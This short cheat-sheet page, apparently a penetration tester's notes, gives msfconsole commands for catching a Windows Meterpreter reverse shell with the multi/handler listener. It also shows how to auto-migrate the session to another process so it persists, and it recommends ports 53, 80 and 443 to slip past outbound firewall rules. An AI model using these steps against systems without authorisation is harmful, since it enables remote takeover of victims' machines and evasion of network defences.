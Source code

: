 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["Metasploit", "Firewall", "Reverse Shell", "Shellcode", "Listener", "Reverse Shell", "Msfconsole"]
---
```


### Start a Metasploit Listener

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
run
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

<br>

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console
run
```
